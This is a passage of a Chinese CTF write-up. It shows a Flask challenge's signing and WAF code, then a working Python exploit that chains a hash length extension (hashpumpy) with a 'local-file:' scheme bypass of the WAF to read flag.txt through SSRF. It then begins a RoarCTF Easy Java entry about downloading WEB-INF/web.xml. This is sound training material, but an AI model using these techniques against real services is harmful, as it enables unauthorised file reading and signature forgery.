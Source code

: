 ```python
def getSign(action, param):
    return hashlib.md5(secert_key + param + action).hexdigest()


def md5(content):
    return hashlib.md5(content).hexdigest()


def waf(param):
    check=param.strip().lower()
    if check.startswith("gopher") or check.startswith("file"):
        return True
    else:
        return False


if __name__ == '__main__':
    app.debug = False
    app.run(host='0.0.0.0')
```

两种操作：`scan` 写入 `result.txt`，`read` 读文件。生成签名时将 `secret_key` 放在最前面，因此可以通过哈希长度扩展攻击在末尾添加一个 `read` 操作。这样就可以先把 `flag.txt` 写入 `result.txt` 再读出来。

为了读到 `flag.txt`，很容易想到 `file` 协议，但是在 `waf` 中过滤了 `file` 和 `gopher` 协议。这里可以利用 `urllib` 库中的特殊协议 `local-file` 来读文件，造成 SSRF。

```py
import requests
import urllib
import hashpumpy

base = 'http://0230c9c3-8270-4e74-9786-e6ab55d01eeb.node3.buuoj.cn/'
url = 'local-file:flag.txt'
r = requests.get(base +'geneSign?param='+ url)
print(r.text)
hashcode = hashpumpy.hashpump(r.text, url+'scan','read', 16)
print(hashcode)

cookies = {
    'sign': hashcode[0],
    'action': urllib.parse.quote(hashcode[1][len(url):])
}
r = requests.get(base +'De1ta?param='+url, cookies=cookies)
print(r.text)
```

## \[RoarCTF 2019\] Easy Java

容易发现任意文件下载漏洞，我们可以下载 `WEB-INF/web.xml`，注意必须通过 POST 方式。可以发现存在 `FlagController`，然后去下载 `FlagController`：
